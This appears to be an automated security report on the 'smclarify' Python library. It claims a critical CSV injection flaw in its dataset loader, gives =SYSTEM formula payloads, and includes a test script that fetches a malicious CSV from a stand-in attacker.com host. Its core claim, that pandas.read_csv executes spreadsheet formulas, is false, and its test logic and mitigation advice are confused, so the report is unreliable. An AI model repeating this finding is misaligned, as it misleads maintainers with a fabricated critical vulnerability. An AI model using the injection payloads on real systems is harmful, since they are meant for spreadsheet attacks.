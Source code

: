 ## Combined Vulnerability List

### CSV Injection in Dataset Loading

- **Description:**
  - An attacker crafts a malicious CSV file containing formulas (e.g., `=SYSTEM("malicious_command")` or `=SYSTEM("calc")`). These formulas can start with characters like '=', '@', or '+'.
  - The attacker hosts this malicious CSV file on a public S3 bucket or a web server, making it accessible to potential victims.
  - A user, intending to use `smclarify` for bias analysis or other functionalities, is tricked or unknowingly uses a dataset path pointing to the attacker's malicious CSV file. This could occur through social engineering, typos, or compromised data sources.
  - The `smclarify` library, through its `Datasets` class and `S3Dataset` module, uses `pandas.read_csv` to load the dataset from the provided path.
  - If the pandas library version used by `smclarify` is vulnerable to CSV injection, `pandas.read_csv` executes the malicious formulas embedded in the CSV during parsing. This behavior depends on the user's pandas environment configuration and potentially settings in spreadsheet software if the loaded CSV is later opened with tools like Excel or LibreOffice.
  - This results in arbitrary code execution on the user's system with the privileges of the user running `smclarify`. It can also lead to information disclosure if the formulas are designed to extract and send sensitive data.

- **Impact:**
  - Arbitrary code execution. An attacker can potentially gain full control over the user's system. This can lead to severe consequences including:
    - Data breaches and exfiltration of sensitive information.
    - Installation of malware, ransomware, or other malicious software.
    - Complete system compromise and unauthorized access.
    - Denial of service by disrupting system operations or deleting critical files.

- **Vulnerability Rank:** Critical

- **Currently Implemented Mitigations:**
  - None. The code within `smclarify/util/dataset.py` directly utilizes `pandas.read_csv` and `pd.read_parquet` without any input sanitization, secure parsing configurations, or measures to disable formula execution.

- **Missing Mitigations:**
  - **Input Sanitization:** Implement robust sanitization of datasets before parsing with pandas. This should include:
    - Neutralizing or removing potentially malicious content like CSV formulas by escaping or stripping characters like '=', '@', and '+'.
    - Validating data types and formats to prevent unexpected input that could be exploited.
  - **Secure Parsing Configuration:** Configure `pandas.read_csv` to disable features that could lead to code injection, specifically formula execution, if pandas provides such options or secure parsing modes. Explore parameters like `engine='python'` or other security-related settings in `pandas.read_csv` documentation.
  - **Sandboxing/Isolation:** Execute dataset loading and analysis processes within a sandboxed environment or container. This would limit the impact of any successful code execution by restricting the attacker's access to the host system and network.
  - **Input Validation and Source Integrity Checks:** Implement checks to validate the source and integrity of datasets.
    - Verify datasets are loaded only from trusted and verified origins or allowlists.
    - Implement checksum or digital signature verification to ensure datasets have not been tampered with during transit or storage.
  - **User Awareness and Documentation:**  Document the risk of CSV injection and advise users to:
    - Be extremely cautious when loading CSV files from untrusted or external sources.
    - Understand the potential risks associated with running code from external datasets.
    - Keep their pandas library and related dependencies updated to the latest versions, which may include security patches.

- **Preconditions:**
  - **Attacker Controlled CSV File:** The attacker must have the ability to create and host a malicious CSV file at an accessible location, such as a public web server or S3 bucket, or compromise a legitimate data source.
  - **User Dataset Path Manipulation:** A user must be induced, either intentionally or unintentionally, to provide a dataset path to `smclarify` that points to the attacker's malicious CSV file.
  - **Vulnerable pandas Version:** The version of the pandas library used by `smclarify` or by the user's environment must be susceptible to CSV injection or similar formula execution vulnerabilities.

- **Source Code Analysis:**
  - **File:** `/code/src/smclarify/util/dataset.py`
  - **Class:** `S3Dataset` (and potentially other Dataset classes that load CSV data)
  - **Function:** `read_csv_data(self, index_col=False) -> pd.DataFrame`
  - **Vulnerable Code Snippet:**
    ```python
    def read_csv_data(self, index_col=False) -> pd.DataFrame:
        self.ensure_local()
        return pd.read_csv(self.local_path(), index_col=index_col)
    ```
  - **Analysis:**
    1. The `read_csv_data` function is responsible for loading CSV data into a pandas DataFrame.
    2. It calls `self.ensure_local()` to ensure the dataset file is locally available, which might involve downloading it from a remote source based on `self.local_path()`.
    3. Critically, it directly uses `pd.read_csv(self.local_path(), index_col=index_col)` to parse the CSV file.
    4. There is no input validation or sanitization performed on the CSV file content before it is processed by `pd.read_csv`.
    5. If `self.local_path()` points to a malicious CSV file crafted by an attacker and `pandas.read_csv` is vulnerable to CSV injection (depending on version and environment), parsing this malicious CSV will trigger the execution of embedded formulas.
    - **Visualization:**
      ```mermaid
      graph LR
          A[User provides dataset path to smclarify] --> B(Datasets Class);
          B --> C{Is dataset CSV?};
          C -- Yes --> D(S3Dataset or similar class);
          D --> E[read_csv_data() function];
          E --> F[pd.read_csv(self.local_path())];
          F -- Malicious CSV --> G{pandas.read_csv Vulnerable?};
          G -- Yes --> H[Code Execution on User System];
          G -- No --> I[CSV Loaded Normally];
      ```

- **Security Test Case:**
  1. **Prepare Attacker Server:** Set up a publicly accessible web server (e.g., using Python's `http.server` or a cloud-based hosting service).
  2. **Create Malicious CSV File (malicious.csv):** Create a CSV file with the following content to test for command execution. This example uses `=SYSTEM("touch /tmp/smclarify_pwned")` for Linux/macOS and `=SYSTEM("echo pwned > C:\smclarify_pwned.txt")` for Windows. Choose the appropriate command for your testing environment.
     ```csv
     Column1,Column2
     test,=SYSTEM("touch /tmp/smclarify_pwned")
     ```
     or (for Windows test environment):
     ```csv
     Column1,Column2
     test,=SYSTEM("echo pwned > C:\smclarify_pwned.txt")
     ```
  3. **Host Malicious CSV:** Place `malicious.csv` on the attacker's web server. For example, if using Python's `http.server` on `attacker.com` port 8000, the file will be accessible at `http://attacker.com:8000/malicious.csv`.
  4. **Modify smclarify Test Script:** Create or modify a Python script that uses `smclarify` to load a dataset.  Adapt the provided example script, ensuring to replace `"http://attacker.com:8000/malicious.csv"` with the actual URL where you hosted the malicious CSV. Adjust the file path check (`/tmp/smclarify_pwned` or `C:\smclarify_pwned.txt`) according to the command used in the malicious CSV and your OS.
     ```python
     import smclarify
     import pandas as pd
     import os

     class MaliciousDataset(smclarify.util.dataset.Dataset):
         def __init__(self, id, source, description):
             super().__init__(id, source, description)
         def ensure_local(self) -> None:
             pass
         def train(self) -> pd.DataFrame:
             return pd.DataFrame()
         def read_csv_data(self, index_col=False) -> pd.DataFrame:
             return pd.read_csv(self.source, index_col=index_col)


     datasets_instance = smclarify.util.dataset.Datasets()
     datasets_instance.datasets["malicious_dataset"] = MaliciousDataset(
         "malicious_dataset",
         "http://attacker.com:8000/malicious.csv", # Replace with your malicious CSV URL
         "Malicious Dataset for CSV injection test",
     )

     try:
         df = datasets_instance("malicious_dataset").read_csv_data()
         print("CSV loaded successfully (unexpected if vulnerable):")
         print(df)
     except Exception as e:
         print(f"Error loading CSV (expected if vulnerable or pandas patched): {e}")

     pwned_file = "/tmp/smclarify_pwned" # For Linux/macOS test
     # pwned_file = "C:\smclarify_pwned.txt" # For Windows test

     if os.path.exists(pwned_file):
         print(f"VULNERABILITY CONFIRMED: {pwned_file} file created, indicating code execution!")
         os.remove(pwned_file) # Cleanup for repeated tests
     else:
         print(f"Vulnerability NOT confirmed: {pwned_file} file NOT created (pandas might be patched or not vulnerable).")
     ```
  5. **Run Test Script:** Execute the Python script in an environment where `smclarify` and a potentially vulnerable version of pandas are installed. You may need to use an older version of pandas if the latest version is patched against CSV injection.
  6. **Check for Command Execution:** After running the script, check if the file `/tmp/smclarify_pwned` (or `C:\smclarify_pwned.txt` for Windows test) has been created.
     - **If the file exists:** This confirms the CSV injection vulnerability. The `=SYSTEM()` command within the malicious CSV was executed by `pandas.read_csv`, leading to arbitrary code execution.
     - **If the file does not exist:** This indicates that either the pandas version is patched against CSV injection, or the system's security settings prevented the command execution. Further investigation might be needed, potentially trying different formula types or pandas versions.